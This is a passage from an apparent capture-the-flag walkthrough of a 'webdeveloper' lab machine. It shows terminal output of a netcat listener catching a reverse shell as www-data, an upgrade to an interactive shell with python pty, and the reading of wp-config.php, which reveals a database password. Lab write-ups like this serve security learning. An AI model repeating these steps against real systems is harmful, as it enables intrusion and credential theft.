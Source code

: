
```text
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.0.0.8: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.8] 46690
Linux webdeveloper 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 10:45:58 up 37 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Great! But what can we do now? Firstly, I need to upgrade my shell in order to be able to run `sudo` command. 

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@webdeveloper:/var/www/html$
```

After that, while casually searching for files, I've noticed a `webdeveloper` password in `wp-config.php` file. 

```text
www-data@webdeveloper:/var/www/html$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');
```
